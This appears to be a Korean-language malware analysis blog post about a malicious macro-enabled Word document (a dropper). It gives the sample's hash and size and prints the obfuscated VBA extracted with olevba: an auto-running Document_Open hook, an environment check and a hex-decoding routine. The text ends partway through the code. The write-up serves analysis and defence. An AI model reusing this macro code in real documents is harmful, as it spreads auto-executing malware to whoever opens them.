 ```yaml
---
layout: single
title: "[Macro] 문서형 악성코드 분석"
categories: Malware
tag: [Malware,vbs,macro,dropper]
author_profile: false
sidebar:
    nav: "docs"
search: false
---
```




# 악성코드 정보
    파일 타입: Docm
	해시 값: 014827baac8a836d570203d3ff88b22957dcedd1cc4eae49e4ac62334f4f4903
    파일 크기: 1,406,144 Byte



# 분석 시작

olevba 사용해 내부 코드를 확인하면 밑에 있는 코드를 확인할 수 있다. 

```vb
Sub obiwgfhsha()
End Sub
Private Function ylpdfpnmlbmswkm() As Variant
    ylpdfpnmlbmswkm = Array("chs", "cht", "deu", "enu", "esn", "fra", "ita", "jpn", "kor", "rus")
End Function
Private Function cwqykutktzoyalcwyhbf() As Variant
    cwqykutktzoyalcwyhbf = Array("A1", "BU", "CZ", "DA", "FI", "FR", "GR", "HE", "HEB", "HU", "IC", "IT", "KOR", "NE", "NO", "PL1", "RO", "RU", "SP")
End Function
Private Sub Document_Open()
    zwxcnxajcshyp True
End Sub
Private Sub dtlqnhxneoffkjywab(kwzbshccypfxpbrc As Boolean)
    If Dir(".gattaka") <> "" Then
        MsgBox "Not applicable environment", vbCritical, "Error"
    Else
        
    End If
End Sub
Private Function tylkftcicrjxfvkh(jrdhrfrnwmiz As String) As Byte()
    Dim tjsjtweivmxniyr As Long, cthcsdekmdaszjq As Long
    Dim wzkjzdvximq() As Byte
    Dim ayxhcvijnqwfjysy As Long
    Dim sndhqsilovqxlairz As String
    tjsjtweivmxniyr = Len(jrdhrfrnwmiz)
    ReDim wzkjzdvximq(0 To tjsjtweivmxniyr / 2 - 1)
    ayxhcvijnqwfjysy = LBound(wzkjzdvximq)
    sndhqsilovqxlairz = rrhzspxkphvvy("137171")
    For cthcsdekmdaszjq = tjsjtweivmxniyr - 1 To 0 Step -2
        wzkjzdvximq(ayxhcvijnqwfjysy) = CByte(CLng(sndhqsilovqxlairz + (Mid(jrdhrfrnwmiz, cthcsdekmdaszjq, 2))))
        ayxhcvijnqwfjysy = ayxhcvijnqwfjysy + 1
    Next cthcsdekmdaszjq
    tylkftcicrjxfvkh = wzkjzdvximq
End Function
Private Sub raeozmfjnymq(pvnynzivlnpbtfcckhkm As String, cpnptsrgjlywqowekc() As Byte, Optional tiifnysxfmhsk As Boolean = False)
```